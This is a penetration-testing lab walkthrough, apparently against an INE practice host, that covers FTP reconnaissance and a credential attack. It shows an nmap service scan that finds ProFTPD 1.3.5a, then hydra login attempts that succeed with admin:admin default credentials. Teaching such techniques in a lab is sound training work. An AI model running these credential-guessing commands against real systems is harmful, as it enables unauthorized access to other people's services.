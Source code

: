 ### **Step 1: Discover FTP Service**

**What We're Doing:** Finding the FTP service on our target

#### **Command Used:**
```bash
nmap -sV demo.ine.local
```

#### **What Happened:**
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-08 13:22 IST
Nmap scan report for demo.ine.local (192.121.136.3)
Host is up (0.000021s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5a
MAC Address: 02:42:C0:79:88:03 (unknown)
Service Info: OS: Unix
```

#### **🎯 What This Tells Us:**
- **FTP Service Found** on port 21 (standard FTP port)
- **ProFTPD Version** 1.3.5a (specific software version)
- **Unix System** - tells us what type of passwords to try
- **Service is Active** - ready to accept login attempts

#### **Why This Matters:**
Finding FTP service confirms we have a login target. ProFTPD is common and often has weak default configurations.

---

### **Step 2: Test Basic Authentication**

**What We're Doing:** Trying simple username and password combinations first

#### **Commands Used:**
```bash
# Test common FTP credentials manually
hydra -l admin -p admin demo.ine.local ftp
hydra -l ftp -p ftp demo.ine.local ftp
hydra -l anonymous -p anonymous demo.ine.local ftp
```

#### **What Happened:**
```bash
[21][ftp] host: demo.ine.local   login: admin   password: admin
```

#### **🔍 Result Analysis:**
- **Quick Success** with admin:admin credentials
- **Default Credentials** still enabled on target
- **No Account Lockout** - service accepts multiple attempts
- **Ready for Further Testing** to find more accounts

---